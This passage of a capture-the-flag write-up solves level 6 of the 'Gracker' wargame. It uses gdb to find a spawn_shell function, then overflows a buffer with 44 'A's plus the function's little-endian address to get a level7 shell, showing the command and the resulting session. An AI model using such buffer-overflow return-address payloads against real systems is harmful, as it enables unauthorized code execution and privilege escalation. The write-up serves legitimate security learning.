 This is a case of return pointers being expressed through this program. But note that the `0x41` indicates the A's I inputted into the parameters.

Pulling up gdb allows us to get to this method pointer to return.

```
(gdb) info func
All defined functions:

Non-debugging symbols:
0x080483a0  _init
0x080483e0  setresuid@plt
0x080483f0  printf@plt
0x08048400  geteuid@plt
0x08048410  getegid@plt
0x08048420  strcpy@plt
0x08048430  puts@plt
0x08048440  system@plt
0x08048450  __gmon_start__@plt
0x08048460  exit@plt
0x08048470  __libc_start_main@plt
0x08048480  setresgid@plt
0x08048490  _start
0x080484c0  __x86.get_pc_thunk.bx
0x080484d0  deregister_tm_clones
0x08048500  register_tm_clones
0x08048540  __do_global_dtors_aux
0x08048560  frame_dummy
0x0804858b  spawn_shell
0x080485eb  gates_of_arjia
0x08048619  main
0x080486a0  __libc_csu_init
0x08048710  __libc_csu_fini
0x08048714  _fini
(gdb) quit
```

spawn_shell is our pointer, so let's route it using endianess.

```
level6@gracker:~$ /matrix/level6/level6 `echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8b\x85\x04\x08'`    
Hello, I'm the MCP (Master Control Program). I'm here to protect the TRON system.
What are you doing here? Are you a user or a program?
Where did you come from? Proof your identity:
Return to: 0x804858b
Welcome to Arjia City!
$ whoami
level7
$ 
```

# Gracker Level 7
